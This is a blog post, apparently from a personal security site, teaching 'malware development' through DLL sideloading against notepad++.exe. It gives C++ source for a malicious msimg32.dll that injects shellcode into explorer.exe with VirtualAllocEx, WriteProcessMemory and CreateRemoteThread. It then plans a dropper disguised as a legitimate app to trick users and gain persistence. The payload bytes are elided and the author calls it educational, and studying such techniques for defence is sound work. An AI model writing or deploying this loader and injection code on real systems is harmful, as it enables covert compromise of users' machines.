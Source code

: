 title: "Malware Development - DLL Sideloading"
classes: wide
header:
teaser: /assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/logo.jpg
ribbon: Purple
description: "DLL sideloading is a method that allows an application to load a dynamic link library (DLL) from ..."
categories:

- Malware Analysis

---

DLL sideloading is a method that allows an application to load a dynamic link library (DLL) from a location other than the application's install directory. This is often done to enable an application to use a specific version of a DLL or to load a DLL that is not in the system's default search path. In some cases, DLL sideloading can be used to introduce malicious code into an application, so it is generally considered a security risk and is often disabled on corporate and enterprise networks.

## Concept

The concept of DLL sideloading is based on the fact that many applications use DLLs to provide additional functionality or to implement certain features. A DLL is a type of file that contains code and data that can be used by multiple applications at the same time. When an application needs to use a particular DLL, it typically loads the DLL from the application's install directory or from a location specified in the system's default search path.

Here in our case, "notepad++.exe" tries to load "MSIMG32.DLL", first it will search the DLL in its folder, then check it if avaliable in "System32" folder. We will hijack this part of process, we will copy and save the DLL from "System32", add dependencies to the original but renamed DLL so that our malicious DLL does not give any errors. When "notepad++.exe" executed, our malicious DLL will be loaded without any error and calc.exe executes.

`this article will not cover obfuscation, use it for educational purposes, source code is at the bottom`

### Finding Vulnerable DLLs

As a mentioned before, this procedure requires a vulnerable DLL with "NAME NOT FOUND" result. I choose "notepad++.exe", looked for a process that resulted "NAME NOT FOUND" and picked "msimg32.dll".

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/20221208_134707_image.png)

I used my previous malware development - dropper codes, you can check them [here](https://github.com/vvelitkn/MalwareDev-Dropper).

First we should create the malicious DLL (which spawns calc.exe), so we open a new DLL project on Visual Studio named "msimg32" (you should name it with the target DLL's name). We set DllMain function like below and the rest of the code is very same as my previous code. "Action" is our malicious function.

```cpp
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <Windows.h>
#include <stdio.h>
#include <TlHelp32.h>
#define _CRT_SECURE_NO_DEPRECATE
#pragma warning (disable : 4996)

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  reason_for_call,
    LPVOID lpReserved
)
{
    HANDLE hThread = NULL;
    switch (reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        hThread = CreateThread(NULL, 0, Action, NULL, 0, NULL);
        CloseHandle(hThread);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

When "Action" function called, it makes these happen.

Action -> find and open target process -> inject payload

```cpp
//msfpayload windows/x64/exec CMD="calc" EXITFUNC=thread
unsigned char payload[] = {.......}

HANDLE FindTargetProcess(const LPCSTR processName)
{
    int pid = 0;
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hSnap)
        return 0;

    PROCESSENTRY32 ProcessListEntry;
    ProcessListEntry.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hSnap, &ProcessListEntry))
    {
        CloseHandle(hSnap);
        return 0;
    }  

    while (Process32Next(hSnap, &ProcessListEntry))
    {
        if (lstrcmpi(processName, ProcessListEntry.szExeFile) == 0)
        {
            pid = ProcessListEntry.th32ProcessID; break; 
        }
    }

    CloseHandle(hSnap);

    if (pid)
        return OpenProcess(PROCESS_CREATE_PROCESS | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD)pid);

    return NULL;
}

int InjectPayload(HANDLE hProcess, unsigned char* payload, unsigned int payloadSize)
{

    LPVOID pRemoteShellcode = NULL;
    pRemoteShellcode = VirtualAllocEx(hProcess, NULL, payloadSize, MEM_COMMIT, PAGE_EXECUTE_READ);
    WriteProcessMemory(hProcess, pRemoteShellcode, (PVOID)payload, (SIZE_T)payloadSize, (SIZE_T*)NULL);

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteShellcode, NULL, 0, NULL);
    if (hThread != NULL)
    {
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    return -1;
}

DWORD WINAPI Action(LPVOID lpParameter)
{
    HANDLE hProcess = NULL;
    unsigned int payloadsize = sizeof(payload);

    char pName[] = "explorer.exe";
    hProcess = FindTargetProcess(pName);

    if (hProcess != NULL)
    {
        InjectPayload(hProcess, payload, payloadsize);
        CloseHandle(hProcess);
    }
    return 0;
}



```

After completing the payload and injection stages, we write the export functions of my original but renamed DLL so that our malicious DLL does not fail while loading.

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/20221208_162822_image.png)

Let's test it out.

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/poc.gif)

So far, so good. Our malicious DLL loading without error. We hijack the loading cycle, but we can do more. Let's create a dropper for "msimg32.dll" and make it look like a legit app which drops our malicious DLL. So we will do this here:

Dropper -> Mal DLL + NonMal DLL -> execute payload

This procedure will give us the advantage: persistence. The careless user will run our dropper and if the user has notepad++ on their computer we will upload our files there.

To be continued.


- [Source Code](https://github.com/vvelitkn/MalwareDev-DLL-Sideloading)
